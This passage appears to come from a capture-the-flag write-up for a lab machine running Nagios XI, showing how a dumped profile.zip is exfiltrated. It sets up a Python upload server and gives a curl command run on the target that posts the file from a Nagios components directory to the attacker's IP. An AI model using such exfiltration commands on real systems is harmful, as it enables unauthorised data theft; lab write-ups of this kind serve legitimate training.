 ![Sudo command](/assets/img/Monitored/Monitored_14.png)

So after executing this script it would dump the profile.zip in the **/usr/local/nagiosxi/var/components/** directory. So now we want to exfiltrate this file. i decided to do this by using a python upload server.

```bash
python3 -m uploadserver 80 
```

Then run the following curl command on the target to upload the zip file

```bash
curl -X POST http://10.10.16.40/upload -F files=@/usr/local/nagiosxi/var/components/profile.zip
```

Then a moment later we'd receive the file on our upload server

![Zip exfiltrated](/assets/img/Monitored/Monitored_15.png)
